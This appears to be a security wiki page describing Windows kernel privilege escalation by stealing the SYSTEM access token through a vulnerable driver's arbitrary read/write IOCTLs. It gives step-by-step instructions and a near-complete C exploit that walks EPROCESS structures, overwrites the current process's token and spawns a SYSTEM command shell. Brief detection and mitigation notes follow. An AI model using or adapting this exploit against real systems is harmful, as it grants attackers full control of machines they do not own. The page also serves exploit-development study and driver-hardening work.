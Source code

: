 # Windows kernel EoP: Token stealing with arbitrary kernel R/W


## Overview

If a vulnerable driver exposes an IOCTL that gives an attacker arbitrary kernel read and/or write primitives, elevating to NT AUTHORITY\SYSTEM can often be achieved by stealing a SYSTEM access token. The technique copies the Token pointer from a SYSTEM process’ EPROCESS into the current process’ EPROCESS.

Why it works:
- Each process has an EPROCESS structure that contains (among other fields) a Token (actually an EX_FAST_REF to a token object).
- The SYSTEM process (PID 4) holds a token with all privileges enabled.
- Replacing the current process’ EPROCESS.Token with the SYSTEM token pointer makes the current process run as SYSTEM immediately.

> Offsets in EPROCESS vary across Windows versions. Determine them dynamically (symbols) or use version-specific constants. Also remember that EPROCESS.Token is an EX_FAST_REF (low 3 bits are reference count flags).

## High-level steps

1) Locate ntoskrnl.exe base and resolve the address of PsInitialSystemProcess.
   - From user mode, use NtQuerySystemInformation(SystemModuleInformation) or EnumDeviceDrivers to get loaded driver bases.
   - Add the offset of PsInitialSystemProcess (from symbols/reversing) to the kernel base to get its address.
2) Read the pointer at PsInitialSystemProcess → this is a kernel pointer to SYSTEM’s EPROCESS.
3) From SYSTEM EPROCESS, read UniqueProcessId and ActiveProcessLinks offsets to traverse the doubly linked list of EPROCESS structures (ActiveProcessLinks.Flink/Blink) until you find the EPROCESS whose UniqueProcessId equals GetCurrentProcessId(). Keep both:
   - EPROCESS_SYSTEM (for SYSTEM)
   - EPROCESS_SELF (for the current process)
4) Read SYSTEM token value: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset).
   - Mask out the low 3 bits: Token_SYS_masked = Token_SYS & ~0xF (commonly ~0xF or ~0x7 depending on build; on x64 the low 3 bits are used — 0xFFFFFFFFFFFFFFF8 mask).
5) Option A (common): Preserve the low 3 bits from your current token and splice them onto SYSTEM’s pointer to keep the embedded ref count consistent.
   - Token_ME = *(EPROCESS_SELF + TokenOffset)
   - Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) Write Token_NEW back into (EPROCESS_SELF + TokenOffset) using your kernel write primitive.
7) Your current process is now SYSTEM. Optionally spawn a new cmd.exe or powershell.exe to confirm.

## Pseudocode

Below is a skeleton that only uses two IOCTLs from a vulnerable driver, one for 8-byte kernel read and one for 8-byte kernel write. Replace with your driver’s interface.

```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
    struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
    in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
    struct { uint64_t addr, val; } in; DWORD ret;
    in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
    LPVOID drivers[1024]; DWORD cbNeeded;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
        return (uint64_t)drivers[0]; // first is typically ntoskrnl
    }
    return 0;
}

int main(void) {
    HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (h == INVALID_HANDLE_VALUE) return 1;

    // 1) Resolve PsInitialSystemProcess
    uint64_t nt = get_nt_base();
    uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

    // 2) Read SYSTEM EPROCESS
    uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

    // 3) Walk ActiveProcessLinks to find current EPROCESS
    DWORD myPid = GetCurrentProcessId();
    uint64_t cur = EPROC_SYS; // list is circular
    uint64_t EPROC_ME = 0;
    do {
        uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
        if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
        uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
        cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
    } while (cur != EPROC_SYS);

    // 4) Read tokens
    uint64_t tok_sys, tok_me;
    kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
    kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

    // 5) Mask EX_FAST_REF low bits and splice refcount bits
    uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
    uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

    // 6) Write back
    kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

    // 7) We are SYSTEM now
    system("cmd.exe");
    return 0;
}
```
```
Notes:
- Offsets: Use WinDbg’s `dt nt!_EPROCESS` with the target’s PDBs, or a runtime symbol loader, to get correct offsets. Do not hardcode blindly.
- Mask: On x64 the token is an EX_FAST_REF; low 3 bits are reference count bits. Keeping the original low bits from your token avoids immediate refcount inconsistencies.
- Stability: Prefer elevating the current process; if you elevate a short-lived helper you may lose SYSTEM when it exits.

## Detection & mitigation
- Loading unsigned or untrusted third‑party drivers that expose powerful IOCTLs is the root cause.
- Kernel Driver Blocklist (HVCI/CI), DeviceGuard, and Attack Surface Reduction rules can prevent vulnerable drivers from loading.
- EDR can watch for suspicious IOCTL sequences that implement arbitrary read/write and for token swaps.

## References
- [[https://0xdf.gitlab.io/2025/08/26/htb-reaper.html|HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft]]
- [[https://www.fuzzysecurity.com/tutorials/expDev/17.html|FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)]]

